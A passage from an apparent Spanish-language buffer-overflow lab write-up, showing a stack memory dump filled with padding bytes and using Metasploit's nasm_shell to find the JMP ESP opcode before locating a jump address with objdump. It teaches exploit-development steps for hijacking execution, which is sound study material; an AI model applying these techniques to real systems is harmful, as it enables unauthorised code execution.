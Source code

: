 Y solo nos interesara estos de aqui:

```
0xffffd240:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd250:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd260:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd270:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd280:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd290:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2a0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2b0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2c0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2d0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2e0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2f0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd300:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd310:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd320:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd330:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd340:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd350:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd360:     0x43434343      0x43434343      0x43434343      0xffff0a0d
```

Vemos que se esta realizando todo correctamente al principio de la pila y llenando esos huecos con la `C` que se corresponden con `0x43434343`.

### Identificación del OpCode para JMP ESP

Para redirigir la ejecución al principio de la pila (`ESP`), necesitamos identificar el código de operación (`opcode`) de un salto (`JMP ESP`). Usamos `nasm_shell.rb`:

```shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

Nos metera en una shell interactiva de la herramienta:

```
nasm >
```

Y ejecutamos lo siguiente:

```
jmp esp
```

Info:

```
00000000  FFE4              jmp esp
```

Esto indica que el opcode para `JMP ESP` es `FFE4`.

Ahora usaremos `objdump` para saber cual es la dirección de memoria la cual nos permite realizar el `JMP ESP`
